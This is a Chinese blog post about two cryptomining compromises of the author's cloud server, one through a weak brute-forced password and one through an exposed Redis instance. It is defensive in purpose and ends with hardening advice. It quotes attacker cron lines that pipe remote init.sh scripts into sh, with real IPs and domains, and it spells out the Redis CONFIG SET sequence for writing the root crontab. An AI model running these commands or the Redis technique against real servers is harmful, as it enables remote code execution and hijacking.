 ```yaml
---
layout: post
title: 云服日常被攻击（一&二）
date: 2024-01-23 21:04:10
categories:
- 编程记录
tags:
- 网络安全
- 云服务器
---
```


## 被攻击经历一

第一次被攻击是在2022年11月12日，16点39分。手机突然收到了腾讯云的短信，有恶意文件。
然后干的第一件事就是从小程序把服务器停了（服务器上没啥重要服务，纯用来练手玩的一些东西
后来就是上服务器排查哪出的问题，最后发现是账号密码被爆破了。

由于大创项目的原因，服务器是三个人一起用的，我给那俩人都创建了账号，权限也都给了。
关键的点来了，其中一个账号密码是 **123456** ，属于是绷不住了。
因为恶意文件的创建者都是那个账号，所以确定是这个账户密码泄露了。

恶意文件是用于挖矿的 shell 。开机就给我 cpu 干满了，属于是毫不遮掩了。
后续就是重装了系统，并且使用**强密码**。（后面要说，其实用处不大

还有要说的就是它的攻击方式
爆破用户名和密码，挺低级的。不过肯定是用被攻陷的肉鸡去爆破，同时还挖矿，吃满资源。
我恨挖矿的，真该死啊

## 被攻击经历二

第二次被攻击是在2023年12月18日发现的，但是并没有造成影响。这次我的应用是跑在 docker 容器中的。
那天发现 redis 里有这几个奇怪的 string。这定时任务显然是有巨大问题的，不是我的程序写进去的。
~~~
*/2 * * * * root cd1 -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://45.83.123.29/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://en2an.top/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://en2an.top/cleanfda/init.sh | sh
~~~

然后去了这些网址看了看都是下载了什么 shell 脚本。一看，好家伙！又是挖矿的。（这群人真该死啊
下面这篇文章讲了关于 redis 的安全问题，也包含了我这次被攻击的攻击细节。
[Databases. EXPOSED! (Redis)](https://censys.com/databases-exposed-redis/)

详细的就去看上面的文章吧。下面简单讲下攻击原理。
最开始也是爆破，不过这次爆破的是暴露在公网上的 redis 服务。（建议换个端口，不使用默认的 6379，不过用处不是很大
至于为什么会选择 redis ，也许 redis 配置文件的注释就给出了答案。
~~~
# Warning: since Redis is pretty fast an outside user can try up to
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.

# 警告：由于Redis速度相当快，外部用户每秒可以在一个好盒子上尝试多达150k个密码。这意味着你应该使用一个非常强的密码，否则很容易被破解。
~~~
所以即便我的密码是强密码 **~Dx33ZWi>}d8LFvwuZKo** ，但是丝毫不影响被爆破出来。（只是它花的时间会更久一些。
进入 redis 后，会执行 FLUSHALL 删除 redis 服务器上的所有数据。这样做是为了使以下键/值的内容尽可能靠近数据库文件的开头写入。
然后写入类似上面的键值对 SET backup1 "\n\n\n*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh\n\n\n"
执行 CONFIG SET dir "/var/spool/cron/" 将 redis 的 data 目录设置为系统的 "/var/spool/cron/" 目录，默认目录是 "crond" 进程找到并执行单个用户 crontabs 的目录。
执行 CONFIG SET dbfilename "root" 将 redis 的数据文件名设置为 "root"，这意味着数据库的内容将存储在 "/var/spool/cron/root" 中，即 root 用户的个人 crontab 文件。
最后执行 save 使 redis 服务器将内存同步到磁盘，如果成功，crontab 进程将读取并执行 "/var/spool/cron/root" 的内容。

到这里，服务器就不属于你了。
除了写入定时任务脚本以启动进程，也可以写入 .ssh/authorized_keys 文件来添加密钥。

## 修复建议

如那篇文章所说：
* Enable client authentication in your Redis configuration file.
  在Redis配置文件中启用客户端身份验证。
* Configure Redis to only run on internal-facing network interfaces.
  将Redis配置为只在面向内部的网络接口上运行。
* Disable the "CONFIG" command by running ‘rename-command CONFIG ""’ to avoid configuration abuse.
  通过运行"rename-command CONFIG"禁用"CONFIG"命令，以避免配置滥用。
* Configure your firewall only to accept Redis connections from trusted hosts.
  配置防火墙只接受来自可信主机的Redis连接。

最后，挖矿的真该死啊！